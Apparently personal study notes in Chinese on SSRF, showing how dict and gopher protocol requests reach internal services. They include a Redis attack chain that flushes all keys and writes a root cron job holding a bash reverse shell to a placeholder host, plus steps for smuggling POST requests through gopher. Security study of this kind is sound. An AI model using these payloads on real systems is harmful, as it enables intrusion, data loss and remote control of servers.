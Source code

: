 使用ssrf配合DICT协议探测内网端口开放情况:

也可使用http协议

**使用dict协议构造反弹shell - redis**

[https://www.sqlsec.com/2021/05/ssrf.html#toc-heading-2](https://www.sqlsec.com/2021/05/ssrf.html#toc-heading-2)

```reason
# 清空 key
dict://172.72.23.27:6379/flushall

# 设置要操作的路径为定时任务目录
dict://172.72.23.27:6379/config set dir /var/spool/cron/

# 在定时任务目录下创建 root 的定时任务文件
dict://172.72.23.27:6379/config set dbfilename root

# 写入 Bash 反弹 shell 的 payload
dict://172.72.23.27:6379/set x "\n* * * * * /bin/bash -i >%26 /dev/tcp/x.x.x.x/2333 0>%261\n"

# 保存上述操作
dict://172.72.23.27:6379/save
```

### Gopher协议

**为什么要用到gopher协议**

![Untitled](file:///tmp/Export-123bd238-d0e8-4c85-84f8-40e1fbe1d23a/SSRF(Server-Side%20Request%20Forgery)%208896444a46f64714b2a3d272739d77b6/Untitled%205.png?msec=1669820820598)

这里是用到gopher协议传递HTTP的POST请求(SSRF漏洞无法直接发起POST请求)

**构造请求包**

step1: 抓取请求包

step2: 删除HTTP请求的

```reason
Accept-Encoding: gzip, deflate
```

step3: url两次编码整个post请求

![Untitled](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2022_11/Untitled%206.png)

step4: 将编码后的请求作为TCP数据流传入gopher请求中:

```
url=gopher://172.72.23.24:80/<两次url编码的TCP数据流>
```

step5: 成功执行命令

场景:

- 考虑file协议结合XXE外部实体注入,实现ssrf
- ssrf 升级为RCE(通过mysql)

